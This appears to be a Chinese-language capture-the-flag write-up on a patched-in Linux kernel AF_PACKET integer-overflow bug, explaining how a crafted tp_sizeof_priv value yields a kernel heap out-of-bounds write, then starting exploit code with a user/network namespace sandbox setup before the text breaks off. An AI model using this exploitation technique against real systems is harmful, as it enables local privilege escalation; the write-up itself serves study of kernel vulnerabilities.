 ## 漏洞分析

该题直接通过patch的方式将漏洞引入：

```diff
4327,4328c4327,4328
< 		    req->tp_block_size <
< 		    BLK_PLUS_PRIV((u64)req_u->req3.tp_sizeof_priv) + min_frame_size)
---
> 		    (int)(req->tp_block_size -
> 			  BLK_PLUS_PRIV(req_u->req3.tp_sizeof_priv)) <= 0)
```

这条判断是为了确保块头的长度以及每个块的私有数据不大于块的大小。 但可以绕过此检查。 如果`req_u-> req3.tp_sizeof_priv`设置了较高的位，则将表达式转换为int会导致大的正值而不是负的值：

```c
A = req->tp_block_size = 4096 = 0x1000
B = req_u->req3.tp_sizeof_priv = (1 << 31) + 4096 = 0x80001000
BLK_PLUS_PRIV(B) = (1 << 31) + 4096 + 48 = 0x80001030
A - BLK_PLUS_PRIV(B) = 0x1000 - 0x80001030 = 0x7fffffd0
(int)0x7fffffd0 = 0x7fffffd0 > 0
```

当将`req_u-> req3.tp_sizeof_priv`复制到`init_prb_bdqc()`中的`p1-> blk_sizeof_priv`（请参见上面的代码段）中时，它将被限制在两个较低的字节上，因为后者的类型是无符号的。 因此，该漏洞基本上可以绕过所有检查，将`tpacket_kbdq_core`结构的`blk_sizeof_priv`设置为任意值。

如果在源码 `net/packet/af_packet.c`中搜索查找使用`blk_sizeof_priv`的位置，则会发现在以下两个地方都在使用它。

第一个位于`init_prb_bdqc()`中，然后立即对其进行分配以设置`max_frame_len`。 `p1->max_frame_len`的值表示可以保存到块中的最大帧大小。 由于可以控制`p1->blk_sizeof_priv`，因此可以使`BLK_PLUS_PRIV(p1-> blk_sizeof_priv)`大于`p1-> kblk_size`。 这将导致`p1->max_frame_len`具有很大的值，大于块的大小。 这可以在将帧复制到块中时绕过大小检查，从而导致内核堆越界写入。

第二个位于`prb_open_block()`，它将初始化一个块。 `pkc1-> nxt_offset`表示地址，内核将在接收到新数据包后在其中写入新地址。 内核无意覆盖块头和每个块的私有数据，因此它使该地址指向它们之后。 由于控制`blk_sizeof_priv`，因此可以控制`nxt_offset`的最低两个字节。 这可以控制越界写入的偏移量。



## 漏洞利用

### 设置沙盒

由于进程必须在控制其网络名称空间的用户名称空间中具有`CAP_NET_RAW`功能，在编译内核阶段开启`CONFIG_USER_NS=y`

```c
void setup_sandbox() {
        int real_uid = getuid();
        int real_gid = getgid();

        //取消共享用户名称空间，以便将调用进程移到新的用户名称空间中，
        //该名称空间不会与任何先前存在的进程共享。 
        //就像由clone（2）使用CLONE_NEWUSER标志创建的子进程一样，
        //调用者在新名称空间中获得了完整的功能集。
        if (unshare(CLONE_NEWUSER) != 0) {
                perror("[-] unshare(CLONE_NEWUSER)");
                exit(EXIT_FAILURE);
        }

        //取消共享网络名称空间，以便将调用进程移到新的网络名称空间，
        //该名称空间不会与任何先前存在的进程共享。 
        //使用CLONE_NEWNET需要CAP_SYS_ADMIN功能。
        if (unshare(CLONE_NEWNET) != 0) {
                perror("[-] unshare(CLONE_NEWNET)");
                exit(EXIT_FAILURE);
        }

        //写了"deny"到文件/proc/[pid]/setgroups， 
        //是为了限制在新user namespace里面调用setgroups函数来设置groups
```